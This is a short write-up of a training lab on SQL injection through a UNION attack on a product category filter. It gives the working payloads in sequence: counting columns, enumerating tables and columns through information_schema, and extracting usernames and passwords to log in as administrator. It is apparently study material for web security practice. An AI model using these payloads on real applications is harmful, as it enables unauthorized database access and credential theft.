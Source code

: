 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

Using the payload `'UNION+SELECT+NULL,NULL--` we were able to determine there are two columns

![image](https://github.com/RahulMMenon011/Web_Security/assets/140642506/05a2f883-ef0a-4fd4-b91d-65bfad91d228)

Now we listed the tables in the database using the query `'UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`

![image](https://github.com/RahulMMenon011/Web_Security/assets/140642506/ab72b11d-53dc-41d8-84ed-43f7a9ff37ba)

users_jjulbo is the required table

![image](https://github.com/RahulMMenon011/Web_Security/assets/140642506/6b0b3e17-901d-4950-878d-19e85f739f6b)

the payload `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_jjulbo'--` was used to list the columns in the table users_jjulbo 

![image](https://github.com/RahulMMenon011/Web_Security/assets/140642506/611b10df-92eb-4a8a-8a8c-5d572cde5d64)

the payload `'+UNION+SELECT+username_ynzlhj,+password_gyzwno+FROM+users_jjulbo--` is used  to list the users and their passwords in the table

![image](https://github.com/RahulMMenon011/Web_Security/assets/140642506/24f4f515-a786-4bbd-b4b1-e89aa9f28336)

Finally logged in as the administrator

![image](https://github.com/RahulMMenon011/Web_Security/assets/140642506/2667c96d-079a-4bfd-ac8a-3f26e77148f6)




